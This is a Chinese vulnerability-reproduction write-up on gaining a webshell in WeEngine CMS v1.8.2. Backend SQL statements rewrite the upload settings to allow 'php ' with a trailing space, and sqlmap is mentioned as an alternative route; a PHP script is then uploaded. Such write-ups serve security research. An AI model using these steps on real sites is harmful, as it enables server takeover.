


# 微擎 cms 后台 getshell

> 原文：[http://book.iwonder.run/0day/微擎/2.html](http://book.iwonder.run/0day/微擎/2.html)

## 一、漏洞简介

## 二、漏洞影响

v1.8.2（201812130002）

## 三、复现过程

站点-附件设置-支持文件后缀


在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式 php 等等


直接写上支持的后缀为 php 是会带入到数据库的,提交完毕以后数据库会显示可上传的值

```
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

### 漏洞利用

写入任意字符



```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

站点-常用工具-数据库-执行 SQL 语句替换之前插入的值 (记得打开调试模式)

```
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ') 
```

注意 php 后有一个空格

or 如果在渗透过程中有 SQL 注入点的情况下 有用户权限能够上传,尝试直接在 SQLMAP 执行语句

```
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin; 
```


```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

执行完毕-系统-更新缓存



### 上传 php 文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本


## 四、参考链接

> [https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html](https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html)

